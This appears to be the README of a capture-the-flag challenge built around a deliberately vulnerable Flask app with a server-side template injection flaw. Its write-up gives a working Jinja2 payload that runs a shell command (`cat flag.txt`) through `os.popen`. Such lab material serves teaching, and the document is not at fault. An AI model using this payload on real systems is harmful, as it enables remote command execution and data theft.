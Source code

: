 # CTF Challenge: Flask SSTI

## Type of Challenge

-   Vulnerable web app (Server-Side Template Injection, SSTI)

## Technical Details

-   A simple Flask app takes user input and renders it unsafely in a Jinja2 template.
-   The user input is not sanitized, allowing template injection.
-   The flag is stored in `flag.txt` in the app directory.

## Write-up (How to Solve)

1. Submit a payload like `{{config}}` in the name field to test for SSTI.
2. To read the flag, submit: `{{cycler.__init__.__globals__.os.popen('cat flag.txt').read()}}`
3. The flag will be printed in the response.

## Possible Hints

-   "Sometimes, templates can be more powerful than you think."
-   "Try some curly braces in your input."

## Other Details

-   Difficulty: Easy/Medium (basic web exploitation, SSTI knowledge)
-   Knowledge required: Basic Python, Flask, Jinja2, SSTI
-   Resources: Docker, Docker Compose
-   Network: Exposes port 8080

## Implementation

-   See `app.py`, `Dockerfile`, `docker-compose.yaml`, and `flag.txt`.
-   To build and run:
    ```
    docker compose up --build -d
    ```
-   Visit http://localhost:8080

## Group Members

-   Conrad Osvik
